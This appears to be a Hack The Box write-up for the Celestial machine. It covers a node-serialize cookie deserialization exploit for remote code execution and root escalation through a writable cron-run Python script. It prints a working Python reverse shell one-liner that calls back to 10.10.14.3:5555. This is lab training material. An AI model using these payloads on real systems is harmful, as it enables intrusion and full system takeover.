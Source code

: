 ```yaml
---
layout: PostSimple
date: 2020-04-07
title:     "Hack The Box - Celestial"
tags: ['linux','medium','node','serialize','cron']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/1.png)

We are going to pwn Celestial by 3ndG4me from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/130](https://www.hackthebox.eu/home/machines/profile/130)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only One port Available and it is a Node.js Express framework so let's check the webpage of it.

## HTTP:

It displayes a message and nothing else.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/2.png)

Since it is ``Node.js`` framework, Capture the webpage request in burp and check for interesting things.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/3.png)
There is  ``Profile`` cookie in request header and its seems like Base64 encoded, and the Cookie start with ``eyJ`` it is JSON Web Token. 

It is Base64 encoded cookie this information is displayed in response header.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/4.png)

Since it is Base64 encoded cookie, why dont we change it and encode it with base64 and pass it as cookie.[br/](br/)

I changed the ``"num":"2"`` to ``"num":"3"`` and encoded it with base64.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.png)
Now I copied that base64 encoded cookie and pass it to the Request Header Cookie.[br/](br/)

The Output Now changes to ``Hey Dummy 3 + 3 is 33`` so If we change the ``num`` in the cookie, it changes in the response. This is because of a module called [node-serialize](https://www.npmjs.com/package/node-serialize)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.1.png)

I searched for NodeJs Serialize exploits and found this link.
>[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

According to the article, the data we send as a cookie value was passed into the ``unserialize()`` function which unserialize the serialized format code and execute it accordingly. Since Node.js and plenty of other languages rely on the serializtion of the objects, the main issue lies in the parsing of this data whether they contain any malicious code or not. Taking advantage of this, we can generate a payload and due to which try to execute something that can help us in futher exploitation. Once payload created, we can pass it as a cookie value, which then passed into `unserialize`, hence deserialization of the our payload will execute the code.

## Payload Generation:

I started with [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create our reverse shell with Our machine IP.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/6.png)

We need to generate the serialize payload by using ``log.js``[br/](br/)

``log.js``
```
var y = {
 rce : function(){}
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Before doing this make you sure you need to do this.
```
apt install nodejs
apt install npm
npm install node-serialize
```

Copy the payload we got from the python script and paste that in ``function(){PAYLOAD}`` and execute it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/7.png)

Now we got Serialized payload, Copy the payload and encode as Base64, don't forgot to add brackets ``()`` after the function body.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/8.png)

## Gaining Shell:

Paste the encoded Base64 in ``Cookie : Profile=``, send the request and start the listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/9.png)
Got the shell as user ``sun``. You can get the user Flag in ``/Documents``.


## Privilege Escalation:

Uploaded ``pspy`` to the box to check any process running in the background.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/10.png)
There is a python script in ``/Document/script.py`` which is running as root. We have write permission on the file too. So I upload python reverese shell.

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```
Started my listener and I got Root!![br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/11.png)

